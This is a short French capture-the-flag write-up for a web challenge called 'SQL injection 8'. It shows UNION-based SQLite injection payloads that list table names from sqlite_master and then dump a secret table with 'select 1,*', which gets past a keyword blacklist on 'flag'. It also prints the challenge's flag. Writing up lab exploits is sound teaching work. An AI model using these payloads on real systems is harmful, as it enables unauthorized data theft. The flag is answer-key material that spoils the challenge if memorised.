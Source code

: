 # SQL injection 8

> web

Author: [Alexandre-Xavier Labonté-Lamoureux (AXDOOMER)](https://github.com/axdoomer)

Ce huitième et dernier défi d'injection SQL, on utilise le même code backend que celui du défi SQL injection 6. Il y a une table secrète qui contient une colonne "flag". Cependent, le mot "flag" est dans la blacklist. Il est complètement interdit. En d'autres termes, la requête SQL ne sera pas exécutée du tout si le mot est détecté. 

## Setup

Requirements:
- BurpSuite

# Writeup

Nom de la table:
`" union select 1,2,name from sqlite_master--`

Résultat: cKretTblName

Donc, on l'utilise dans la requête suivante: 
`" union select 1,* from cKretTblName--`

Dans ce cas, `1,*` deviendra `1, id, flag`. Comme `flag` est dans le dernier champs, c'est lui qui sera utilisé comme mot de passe.

Le flag obtenu: `FLAG-30411c931fadd809207a9562975ff31d`
